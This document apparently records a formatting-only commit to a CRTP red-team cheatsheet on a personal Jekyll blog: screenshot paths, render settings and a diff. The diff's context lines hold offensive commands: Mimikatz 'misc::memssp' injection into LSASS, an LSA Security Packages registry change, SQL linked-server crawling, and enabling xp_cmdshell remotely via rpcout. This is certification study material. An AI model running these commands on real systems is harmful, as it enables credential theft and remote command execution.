

Before and after one commit to poppysec/poppysec.github.io, a Jekyll site: the page built from _posts/2023-01-31-CRTP-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 12399 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
syntax changes

````diff
--- a/_posts/2023-01-31-CRTP-Cheatsheet.md
+++ b/_posts/2023-01-31-CRTP-Cheatsheet.md
@@ -580,7 +580,8 @@ Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Sec
 Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
 ```
 
-2. Using mimikatz, inject into LSASS (Not stable with Server 2016)
+ii. Using mimikatz, inject into LSASS (Not stable with Server 2016)
+
 ```powershell
 Invoke-Mimikatz -Command '"misc::memssp"'
 ```
@@ -729,6 +730,7 @@ select * from openquery("dcorp-sql1",'select * from master..sysservers')
 ```
 
 **PowerUpSQL**
+
 ```powershell
 Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
 ```
@@ -739,8 +741,10 @@ select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''sel
 ```
 
 #### Executing Commands
+
 - On the target server, either `xp_cmdshell` should be already enabled; or
 - If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled using:
+
 ```sql
 EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
 ```
````
Also changed, not shown: other parts of _posts/2023-01-31-CRTP-Cheatsheet.md (+1 -1 lines), _posts/2022-12-15-OSCP-Cheatsheet.md (+1 -1 lines).
